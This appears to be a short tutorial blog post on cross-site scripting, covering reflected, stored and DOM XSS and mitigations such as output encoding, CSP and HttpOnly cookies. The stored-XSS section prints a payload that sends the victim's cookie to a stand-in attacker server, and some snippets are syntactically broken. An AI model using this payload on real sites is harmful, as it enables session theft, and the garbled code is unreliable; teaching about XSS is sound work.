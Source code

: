 ```yaml
---
title: Cross-site Scripting - known as XSS
date: 2021-06-01 18:28:16
tags: [XSS, Cross-site Scripting, Web Security]
banner_img: https://tva1.sinaimg.cn/large/0060lm7Tly1ftg6omusg9j31hc0u010h.jpg
index_img: https://tva1.sinaimg.cn/large/0060lm7Tly1ftg6omusg9j31hc0u010h.jpg
categories: Frontend Security
---
```


## 1. Introduction

Cross-site scripting is an attack where some software applications take user's input in an insecure way. This happens via search fields in the web page, survey forms, cookies and other online web forms.

## 2. Reflected XSS

1. The website's results contain malicious scripts.

2. when attacker gives your web application JavaScript tags on input.

   ```html
   <script type="text/javascript">
     alert('Possible XSS');
   </script>
   ```

3. When the above script is returned to the user, browser will execute it, and I can be as simple as crafting a link and inducing a user to click it, which could cause much more dangerous.

## 3. Stored XSS

1. The malicious data is stored permanently on a database and is later accessed and run by the victims without having any knowledge of the attack. The classic example of stored XSS is a malicious scripted inserted by an attacker in a comment field on a blog, Social media, or in a forum post.

2. The script below attempts to load an image from the attacker's server with the victim's cookie data within the request URL.

   ```html
   <script>
     var+img=new+image();img.src='http://attacker-server/'+document.cookie;
   </script>
   ```

3. After a request for the image has taken place the attacker can extract the victim's session identifier from the webserver log files.
4. the most famous stored XSS bug was Samy worm which killed Myspace!!

## 4. DOM XSS

1. DOM stands for Document Object Model of the page.

2. The script below is an example. DOM based XSS where in attacker's payload is executed as a result of modifying the DOM 'environment' in the victims' browser used by the original client-side script so that the client side code runs in an unexpected manner.

   ```html
   <script>
     document.write("<b>Current URL</b>" : " document.baseURL);
   </script>
   ```

## 5. Mitigation of XSS

### Input validation

- We can take parameter from URL or data from text and limit the user Input by using known blacklist. It is difficult to add because everyday hackers coming up with different Polyglots.

#### Output encoding

- It is changing input so that it cannot be interpreted as code
- Some HTML encoding rules:
  - ", &, <, >
- URL encoding/ percent encoding

#### Enable CSP

- Content Security Policy is set by application server to the browser's policy
- Set CSP via HTTP header by the web server

#### Use HTTP only Flag

- set http-only via Set-Cookie HTTP response header

## 6. Some site for learning XSS

1. Google XSS Game
2. DVWA
3. Burp Academy
4. Pen-tester Lab
